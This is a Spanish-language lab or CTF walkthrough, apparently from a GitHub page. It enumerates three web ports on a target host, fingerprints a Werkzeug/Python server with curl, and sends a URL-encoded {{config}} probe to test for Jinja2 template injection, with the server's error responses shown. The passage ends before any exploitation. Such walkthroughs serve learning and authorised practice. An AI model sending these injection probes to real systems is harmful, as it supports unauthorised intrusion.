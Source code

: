 Veremos que tenemos un puerto `80`, un puerto `5000` y un puerto `50000` vamos a ver que contiene cada uno de ellos, si entramos al puerto `80` veremos que una pagina web por defecto de `nginx` por lo que no veremos nada interesante pero si entramos en el puerto `5000` que tiene toda la pinta de que es un servidor de `python3` que soporta una pagina web veremos que tarda mucho en cargar y no llega a cargar del todo, pero si nos vamos al ultimo puerto `50000` rechaza la conexion o directamente no se puede acceder desde dicha peticion por `GET` por lo que vamos a ver que sucede en todo esto a nivel interno y a ver que encontramos.

Vamos a realizar un poco de `fuzzing` a ver si vemos algo interesante.

## SSTI

Despues de un rato vemos que por `GET` no responde el puerto `50000` pero si empezamos con `curls` de esta forma veremos esto:

```shell
curl -i -X POST http://<IP>:50000/ -d "test=1"
```

Info:

```
HTTP/1.0 405 METHOD NOT ALLOWED
Content-Type: text/html; charset=utf-8
Allow: HEAD, OPTIONS, GET
Content-Length: 178
Server: Werkzeug/2.0.2 Python/3.9.2
Date: Fri, 23 May 2025 07:26:44 GMT

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>405 Method Not Allowed</title>
<h1>Method Not Allowed</h1>
<p>The method is not allowed for the requested URL.</p>
```

Nos da un `405` pero nos ha respondido por lo menos y aqui ya estamos viendo informacion valiosa de que realmente si se esta utilizando un servidor `python3` con la tecnologia de `Werkzeug/2.0.2` y tiene toda la pinsta de que se puede estar utilizando `Jinja2` por detras que esto puede ser una vulnerabilidad hacia un `SSTI`, vamos a probar una cosa.

```shell
# CODIFICADO EN URL

curl -i "http://<IP>:50000/?q=%7B%7Bconfig%7D%7D"

# FORMA DECODIFICADA

# curl -i "http://<IP>:50000/?q={{config}}"
```

Info:

```
HTTP/1.0 500 INTERNAL SERVER ERROR
Content-Type: text/html; charset=utf-8
Content-Length: 290
Server: Werkzeug/2.0.2 Python/3.9.2
Date: Fri, 23 May 2025 07:29:04 GMT

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>
```
